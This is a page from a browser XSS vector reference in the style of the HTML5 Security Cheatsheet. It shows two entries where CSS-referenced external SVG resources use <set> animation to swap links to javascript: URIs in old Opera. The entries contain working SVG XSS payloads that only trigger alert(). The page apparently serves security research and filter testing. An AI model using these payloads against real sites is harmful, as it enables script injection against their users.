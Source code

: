 reporter：.mario

### Passive SVG JavaScript execution via style injection (1) #109test

SVG supports several new CSS properties (clip-path, fill, filter, marker, marker-end, marker-mid, marker-start, mask, stroke), which can refer to external SVG-resources. These properties can also act as separate attributes. Within the external SVG can contain information to animate the current SVG-document. Example shows an animation links, but the possibilities of animation and other elements. Note that Opera does not show the user the change of links address, if the cursor does not go beyond it.

```
<svg > <a id="x"><rect fill="white" width="1000" height="1000"/></a> <rect fill="white" style="clip-path:url(test3.svg#a);fill:url(#b);filter:url(#c);marker:url(#d);mask:url(#e);stroke:url(#f);"/> </svg>``<svg  > <clipPath id="a" > <set xlink:href="#x" attributeName="xlink:href" begin="1s" to="javascript:alert(1)" /> </clipPath> <pattern id="b"> <set xlink:href="#x" attributeName="xlink:href" begin="2s" to="javascript:alert(2)" /> </pattern> <filter id="c"> <set xlink:href="#x" attributeName="xlink:href" begin="3s" to="javascript:alert(3)" /> </filter> <marker id="d"> <set xlink:href="#x" attributeName="xlink:href" begin="4s" to="javascript:alert(1)" /> </marker> <mask id="e"> <set xlink:href="#x" attributeName="xlink:href" begin="5s" to="javascript:alert(2)" /> </mask> <linearGradient id="f"> <set xlink:href="#x" attributeName="xlink:href" begin="6s" to="javascript:alert(3)" /> </linearGradient> </svg>required_mime: image/svg+xmlcrossdomain: 1path: [`html5sec.org/test3.svg`](http://html5sec.org/test3.svg)name: test3.svg 
```

*   opera 10.x
*   opera 12.0

*   xss

*   javascript
*   svg
*   css
*   xml
*   style

*   #129

reporter：LeverOne

### Passive SVG JavaScript execution via style injection (2)#110test

This example shows how SVG markers allow insertion of external links with JavaScript URI into the current document.

```
<svg > <path d="M0,0" style="marker-start:url(test4.svg#a)"/> </svg>``<svg  > <marker id="a" markerWidth="1000" markerHeight="1000" refX="0" refY="0"> <a xlink:href="http://google.com"> <set attributeName="xlink:href" to="javascript:alert(1)" begin="1s" /> <rect width="1000" height="1000" fill="white"/> </a> </marker> </svg>required_mime: image/svg+xmlcrossdomain: 1path: [`html5sec.org/test4.svg`](http://html5sec.org/test4.svg)name: test4.svg 
```

*   opera 10.x
*   opera 11.52
